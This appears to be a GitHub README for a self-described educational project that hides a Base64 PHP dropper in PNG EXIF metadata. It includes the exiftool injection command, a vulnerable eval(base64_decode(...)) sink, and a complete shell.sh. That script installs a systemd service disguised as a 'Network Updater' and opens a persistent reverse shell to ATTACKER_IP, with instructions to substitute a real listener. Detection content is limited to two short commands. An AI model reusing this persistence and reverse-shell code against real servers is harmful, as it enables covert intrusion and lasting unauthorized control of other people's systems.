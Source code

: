 Backdoor Stealth Image Injection

## Overview
This project demonstrates how an attacker can embed a Base64-encoded malicious payload inside the EXIF metadata of a valid `.png` image. Once uploaded to a vulnerable server, the image can trigger remote command execution or download further malware.

This educational repository simulates:
- A valid `stealth_shell.png` with hidden malware in its EXIF fields.
- A PHP dropper payload (`base64_php_payload.txt`) that retrieves and executes a persistent backdoor.
- A malicious `shell.sh` that sets up a systemd-based reverse shell.

Author: [BackdoorAli](https://github.com/BackdoorAli)

> For educational purposes only. Do not deploy in production or unethical environments.

---

## Files Included

| File                    | Description |
|-------------------------|-------------|
| `stealth_shell.png`     | Image containing the Base64-encoded PHP payload injected into EXIF fields |
| `base64_php_payload.txt`| The actual Base64-encoded dropper PHP payload |
| `shell.sh`              | Systemd-based reverse shell that gets downloaded and executed |

---

## How the Attack Works

1. Image Creation
   - A valid `.png` image is prepared (e.g., a portrait of myself for this specific project - refer to my GitHub's pfp).

2. Payload Preparation
   - A PHP payload is written that:
     - Uses `curl` to download `shell.sh`.
     - Saves it to `/tmp/.m`.
     - Makes it executable and runs it in the background.

3. EXIF Injection
   - The Base64-encoded PHP is injected into `Comment`, `UserComment`, and `Software` EXIF fields using `exiftool`:
     ```bash
     exiftool \
       -Comment="$(cat base64_php_payload.txt)" \
       -UserComment="$(cat base64_php_payload.txt)" \
       -Software="$(cat base64_php_payload.txt)" \
       stealth_shell.png
     ```

4. Execution (Hypothetical)
   - If a vulnerable backend server extracts the EXIF metadata and passes it to something like:
     ```php
     eval(base64_decode($image_exif_data['Comment']));
     ```
   - Then the PHP dropper is executed, downloads the backdoor, and grants persistent shell access.

---

## Backdoor (`shell.sh`)

This script creates a persistent systemd service that launches a reverse shell to an attacker's machine.

```bash
#!/bin/bash
SERVICE_NAME="system-netupd"
SHELL_CMD="/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'"

cat <<EOF > /etc/systemd/system/$SERVICE_NAME.service
[Unit]
Description=Network Updater (Critical)
After=network.target

[Service]
ExecStart=$SHELL_CMD
Restart=always
Type=simple

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable $SERVICE_NAME
systemctl start $SERVICE_NAME
```

Replace `ATTACKER_IP` with your actual listener IP/port. >>> AGAIN, hypothetically! <<<

---

## Detection & Extraction
To view the injected payload:
```bash
exiftool stealth_shell.png | grep -i comment
```

To decode:
```bash
echo "<base64_output>" | base64 -d
```

---

## Defensive measures
See `defense.md` for detailed strategies on detecting and preventing EXIF-based malware delivery.

---

## Disclaimer
This project is for educational and research purposes only. Unauthorized deployment, testing, or use of this payload outside of a legal lab or your own system is strictly prohibited and of YOUR OWN RESPONSIBILITY.
